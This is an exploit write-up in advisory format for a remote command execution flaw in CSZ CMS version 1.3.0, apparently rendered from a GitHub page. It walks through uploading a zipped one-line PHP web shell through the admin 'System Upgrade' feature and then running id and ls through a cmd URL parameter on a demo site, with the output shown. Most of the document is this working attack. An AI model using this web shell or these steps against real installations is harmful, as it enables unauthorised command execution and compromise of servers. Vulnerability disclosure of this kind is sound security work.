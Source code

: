 ## CSZ CMS Version 1.3.0 Remote Command Execution

**Exploit Title:** CSZ CMS Version 1.3.0 Remote Command Execution  
**Date:** 23/11/2023  
**Exploit Author:** tmrswrr  
**Vendor Homepage:** [https://www.cszcms.com/](https://www.cszcms.com/)  
**Software Link:** [SourceForge](https://www.cszcms.com/link/3#https://sourceforge.net/projects/cszcms/files/latest/download)  
**Version:** 1.3.0  
**Tested on:** [Softaculous CSZ CMS](https://www.softaculous.com/apps/cms/CSZ_CMS)

## Steps to Reproduce:

1. Enter the admin panel and go to this URL: `https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/admin/upgrade`

2. Create a zip file using the command:
   ```bash
   zip poc.zip poc.php
   <?php echo "<pre>"; system($_REQUEST['cmd']); echo "</pre>"; ?>
   ```
3. Go to System Upgrade Manually and upload the poc.zip file.

4. Execute commands remotely:
   - Test the execution with the `id` command:
     ```
     https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/poc.php?cmd=id
     ```
     Expected output:
     ```
     uid=1000(soft) gid=1000(soft) groups=1000(soft)
     ```
   - List directory contents using the `ls` command:
     ```
     https://demos1.softaculous.com/CSZ_CMSqwoqwrdkog/poc.php?cmd=ls
     ```
     Expected output:
     ```
     CHANGELOG
     CONTRIBUTING.md
     LICENSE.md
     README.md
     SECURITY.md
     a.php
     assets
     cache.config.inc.php
     config.inc.php
     config_example.inc.php
     corecss.css
     corejs.js
     cszcms
     devtoolsbar.config.inc.php
     env.config.inc.php
     htaccess.config.inc.php
     index.php
     install
     memcached.config.inc.php
     nginx_example.com.conf
     photo
     poc.php
     proxy.inc.php
     redis.config.inc.php
     system
     templates
     test.php
     ```
